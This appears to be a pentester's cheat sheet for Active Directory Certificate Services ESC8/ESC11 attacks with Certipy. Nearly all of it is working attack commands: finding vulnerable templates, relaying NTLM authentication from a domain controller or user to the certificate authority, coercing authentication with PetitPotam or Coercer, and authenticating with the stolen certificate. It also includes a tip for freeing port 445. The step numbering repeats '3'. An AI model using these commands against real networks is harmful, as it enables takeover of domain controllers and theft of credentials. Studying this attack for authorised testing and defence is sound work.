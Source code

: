 # ADCS ESC8/ESC11

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b. NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): `echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start`

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 3. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```

